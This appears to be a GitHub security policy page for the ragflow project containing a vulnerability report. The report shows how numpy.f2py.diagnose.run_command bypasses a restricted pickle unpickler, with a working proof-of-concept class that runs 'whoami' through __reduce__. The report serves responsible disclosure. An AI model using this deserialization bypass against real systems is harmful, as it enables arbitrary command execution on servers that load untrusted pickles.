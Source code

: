 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| <0.7.0   | :white_check_mark: |

## Reporting a Vulnerability

### Branch name

main

### Actual behavior

The restricted_loads function at [api/utils/__init__.py#L215](https://github.com/infiniflow/ragflow/blob/main/api/utils/__init__.py#L215) is still vulnerable leading via code execution.
The main reson is that numpy module has a numpy.f2py.diagnose.run_command function directly execute commands, but the restricted_loads function allows users import functions in module numpy.


### Steps to reproduce


**ragflow_patch.py**

```py
import builtins
import io
import pickle

safe_module = {
    'numpy',
    'rag_flow'
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        import importlib
        if module.split('.')[0] in safe_module:
            _module = importlib.import_module(module)
            return getattr(_module, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))


def restricted_loads(src):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(src)).load()
```
Then, **PoC.py**
```py
import pickle
from ragflow_patch import restricted_loads
class Exploit:
     def __reduce__(self):
         import numpy.f2py.diagnose
         return numpy.f2py.diagnose.run_command, ('whoami', )

Payload=pickle.dumps(Exploit())
restricted_loads(Payload)
```
**Result**
![image](https://github.com/infiniflow/ragflow/assets/85293841/8e5ed255-2e84-466c-bce4-776f7e4401e8)


### Additional information

#### How to prevent?
Strictly filter the module and name before calling with getattr function.
